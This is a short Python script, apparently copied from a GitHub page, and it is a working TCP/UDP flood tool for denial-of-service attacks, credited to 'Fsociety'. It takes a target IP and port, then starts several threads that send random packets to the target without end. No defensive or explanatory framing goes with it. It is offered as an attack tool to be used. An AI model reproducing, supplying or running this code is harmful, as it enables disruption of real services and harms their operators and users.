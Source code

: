#!/usr/bin/env python3
#Code by Fsociety
import argparse
import random
import socket
import threading

ap = argparse.ArgumentParser()
ap.add_argument("-i", "--ip", required=True, type=str, help="Host ip")
ap.add_argument("-p", "--port", required=True, type=int, help="Port")
ap.add_argument("-c", "--choice", type=str, default="y", help="UDP(y/n)")
ap.add_argument("-t", "--times", type=int, default=50000, help="Packets per one connection")
ap.add_argument("-th", "--threads", type=int, default=5, help="Threads")
args = vars(ap.parse_args())

print("--> C0de By FsocietyAnonymous <--")
print("#-- TCP/UDP FLOOD --#")
ip = args['ip']
port = args['port']
choice = args['choice']
times = args['times']
threads = args['threads']

def run():
	data = random._urandom(1024)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
			addr = (str(ip),int(port))
			for x in range(times):
				s.sendto(data,addr)
			print(i +" Sent!!!")
		except:
			print("[!] Error!!!")

def run2():
	data = random._urandom(16)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" Sent!!!")
		except:
			s.close()
			print("[*] Error")

for y in range(threads):
	if choice == 'y':
		th = threading.Thread(target = run)
		th.start()
	else:
		th = threading.Thread(target = run2)
		th.start()

